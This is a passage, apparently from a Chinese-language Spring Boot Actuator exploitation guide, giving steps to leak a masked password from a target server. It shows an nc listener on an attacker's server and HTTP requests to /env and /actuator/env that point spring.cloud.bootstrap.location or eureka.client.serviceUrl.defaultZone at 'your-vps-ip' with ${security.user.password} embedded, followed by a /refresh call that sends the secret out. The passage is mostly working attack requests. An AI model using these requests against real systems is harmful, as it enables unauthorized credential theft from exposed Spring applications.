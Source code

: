 在自己控制的外网服务器上监听 80 端口：

```
nc -lvk 80
```

**步骤三： 触发对外 http 请求**

* `spring.cloud.bootstrap.location` 方法（**同时适用于**明文数据中有特殊 url 字符的情况）

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip/?=${security.user.password}
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"http://your-vps-ip/?=${security.user.password}"}
```

* `eureka.client.serviceUrl.defaultZone` 方法（**不适用于**明文数据中有特殊 url 字符的情况）

spring 1.x

```
POST /env
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http://your-vps-ip/${security.user.password}
```

spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://your-vps-ip/${security.user.password}"}
```

**步骤四： 刷新配置**

spring 1.x

```
POST /refresh
Content-Type: application/x-www-form-urlencoded
```

spring 2.x

```
POST /actuator/refresh
Content-Type: application/json
```
